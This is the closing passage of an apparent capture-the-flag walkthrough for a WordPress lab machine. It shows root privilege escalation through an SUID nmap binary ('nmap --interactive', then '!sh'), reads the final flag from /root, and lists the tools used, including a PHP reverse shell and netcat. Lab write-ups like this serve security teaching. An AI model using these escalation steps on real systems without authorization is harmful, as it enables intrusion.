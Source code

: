 Nmap has SUID set and we have execute permission.  
Use GTFOBins to escalate to root:
```bash
nmap --interactive
```
In interactive mode, run:
```bash
!sh
```
Root access

![/root](./Screenshots/root.png)
---

## Root Flag
Navigate to `/root` and read the final flag:
```bash
cat /root/key-3-of-3.txt
```
![/flag3](./Screenshots/flag3.png)
---

## Tools Used
- Nmap - A network scanning tool used to discover open ports and services.
- Gobuster - A directory brute-forcing tool to find hidden files and directories.
- WPScan - A WordPress vulnerability scanner to identify weaknesses in the CMS.
- Hashcat - A password-cracking tool used to recover plaintext passwords from hashes.
- Hashid / Haiti - Tools used for identifying the type of hash.
- Pentest Monkey PHP Reverse Shell - A widely used script for gaining remote shell access to a target machine.
- Netcat - A networking tool used for creating reverse shells and listening for connections.

---